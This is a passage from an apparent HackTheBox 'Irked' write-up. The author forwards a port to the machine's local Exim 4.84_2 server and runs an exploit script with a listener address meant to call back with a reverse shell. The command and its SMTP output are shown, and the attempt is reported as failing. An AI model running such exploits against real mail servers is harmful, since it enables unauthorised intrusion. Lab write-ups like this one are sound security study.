 
Now I can talk to localhost port 25 on my box, and it will reach localhost 25
on Irked.

I’ll start a `nc` listener, and give it a run:

    
    
    root@kali# python exim_exp.py 10.10.14.14 443 127.0.0.1
    check vuln
    220 irked ESMTP Exim 4.84_2 Thu, 04 Apr 2019 09:53:42 -0400
    250-irked Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ...
    250-SIZE 52428800
    250-8BITMIME
    250-PIPELINING
    250 HELP
    250-irked Hello BBBBBBBBBBBBBBBB [::1]
    250-SIZE 52428800
    250-8BITMIME
    250-PIPELINING
    250 HELP
    500 unrecognized command
    250-irked Hello DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD ...
    250-SIZE 52428800
    250-8BITMIME
    250-PIPELINING
    250 HELP
    NO AUTH PLAIN CONFIG
    false
    

Unfortunately, silence on `nc`. If anyone wants to figure out either how to
get this working or why it doesn’t work, I’d love to hear it!

[](/2019/04/27/htb-irked.html)

